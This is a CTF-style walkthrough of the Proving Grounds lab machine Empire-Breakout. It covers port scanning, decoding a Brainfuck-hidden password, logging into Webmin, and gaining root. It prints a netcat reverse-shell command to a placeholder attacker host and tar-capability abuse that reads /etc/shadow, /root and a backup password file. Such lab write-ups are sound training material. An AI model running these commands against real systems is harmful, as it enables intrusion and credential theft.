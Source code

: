```yaml
---
layout: post
title: 'Proving Grounds Labs: Empire-Breakout Walkthrough'
date: 2023-03-03 15:39 +0800
tags: [CTF]
categories: [OffsecLabs]
---
```



# Introduction

Easy machine from Proving Grounds Labs (FREE), basic enumeration, decryption and linux capability privsec. 

## Nmap

First we start with Nmap scan as we can see 3 ports are open 80, 10000, 20000. on oirt 80 there is a default apache page and rest of 2 ports are running MiniServ service if we can get username and password we will get shell for sure. I alos did all ports scan but didnt got anything but same result, so lets move further.

```bash
> nmap -sC -sV -T4 192.168.173.238 -oN nmap/scan_1

Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-03 13:30 IST
Nmap scan report for 192.168.173.238
Host is up (0.14s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
10000/tcp open  http    MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http    MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
|_http-server-header: MiniServ/1.830

```

## Web Directory BruteForce

nothing interesting here, but lets check sourcecode of index.html page which is the default apache page on port 80

```bash
> dirsearch -u http://192.168.173.238

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/kali/.dirsearch/reports/192.168.173.238/-_23-03-03_15-05-00.txt

Error Log: /home/kali/.dirsearch/logs/errors-23-03-03_15-05-00.log

Target: http://192.168.173.238/

[15:05:00] Starting: 
[15:05:35] 200 -   11KB - /index.html
[15:05:39] 301 -  319B  - /manual  ->  http://192.168.173.238/manual/
[15:05:39] 200 -  676B  - /manual/index.html


```

## Decoding


```vim
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->

Decoded: ".2uqPEfj3D<P'a-3"

```

after schrolling down little bit i we get one comment, and somthing is encrypted here which is brainfuck encryption les decode this with any online decode and we get one password '***********', now we got 2 login forms and a password we try to login in both forms, on port 20000 we can login as "cyber" user. 

## Shell

now this is very simple just click on shell icon and web shell GUI will open run any reverse shell command and get a shell on you machine and stabalize. I used simple netcat shell.



```bash

# ON TARGET
$ nc <attacker-ip> <attacker-port> -e /bin/bash

# ON attacker machine

$ rlwrap nc -lvnp <port>

```

## ROOT 


```bash

cyber@breakout:~$ ls ls -la tar
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
#to check capablities
cyber@breakout:~$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
```


After getting shell we can read user flag, no les get to root, there is a tar binary in our home directory and if we check capablities we can see tar binary, in this we can try to read /etc/shadow. 

1. compress /etc/shadow to tar
2. get .tar file in current directory 
3. extarct .tar and read shadow

ezz :)

```bash

cyber@breakout:~$ ls ls
ls
local.txt  tar
cyber@breakout:~$ ./tar -cvf shadow.tar /etc/shadow
cyber@breakout:~$ ls
local.txt  shadow.tar  tar
cyber@breakout:~$ tar -xf shadow.tar
cyber@breakout:~$ ls
etc  local.txt  shadow.tar  tar
cyber@breakout:~$ cat etc/shadow
root:$y$j9T$eJzu0TYuqGwZThJJzbP6o.$Xs23PV9/...
daemon:*:18919:0:99999:7:::
bin:*:18919:0:99999:7:::
sys:*:18919:0:99999:7:::
sync:*:18919:0:99999:7:::
games:*:18919:0:99999:7:::
man:*:18919:0:99999:7:::
lp:*:18919:0:99999:7:::
mail:*:18919:0:99999:7:::
....

```
and we can read root files now, so les read root flag now but i dont know the name of the file in which flag is stored ;) so les compress whole root directory ezz 

```bash

cyber@breakout:~$ ./tar -cvf root.tar /root
./tar -cvf root.tar /root
/root/
/root/.tmp/
/root/.spamassassin/
/root/.bash_history
/root/.profile
/root/.bashrc
/root/.usermin/
/root/.usermin/procmail/
/root/.usermin/mailbox/
/root/.usermin/mailbox/dsnreplies.pag
/root/.usermin/mailbox/dsnreplies.dir
/root/.usermin/mailbox/delreplies.dir
/root/.usermin/mailbox/delreplies.pag
/root/.usermin/spam/
/root/.usermin/filter/
/root/.local/
/root/.local/share/
/root/.local/share/nano/
/root/proof.txt
cyber@breakout:~$ tar -xf root.tar
tar -xf root.tar
cyber@breakout:~$ ls root/
ls root/
proof.txt
cyber@breakout:~$ cat root/proof.txt
cat root/proof.txt
a2d********fb

```

and we got the root flag but wait we need root shell, les read root users bash_history file and as we can see there is a .bak file in backups directory but only root user can read that, but wait we can read :) with tar les compress that .bak file.

```bash

cyber@breakout:~/root$ cat .bash_history
cat .bash_history
clear
nano /var/backups/.old_pass.bak 
cat /var/backups/.old_pass.bak 
chmod 600 /var/backups/.old_pass.bak
ls -la
clear
cd ../var/backups/
 .......
 
```

```bash

cyber@breakout:~$ ./t./tar -cvf lol.tar /var/backups/.old_pass.bak
./tar -cvf lol.tar /var/backups/.old_pass.bak
/var/backups/.old_pass.bak
cyber@breakout:~$ tar -xf lol.tar
tar -xf lol.tar
cyber@breakout:~$ ls
ls
etc  local.txt  lol.tar  root  root.tar  shadow.tar  tar  var
cyber@breakout:~$ cat var/backups/.old_pass.bak
cat var/backups/.old_pass.bak
"Ts********X(=~h"


```

and we got one more password les su to root user with this password 

```bash

cyber@breakout:~$ su su root
su root
Password: "Ts********X(=~h"

root@breakout:/home/cyber# cd    cd
cd
root@breakout:~# whoamiwhoami
whoami
root

```

and we are root :) 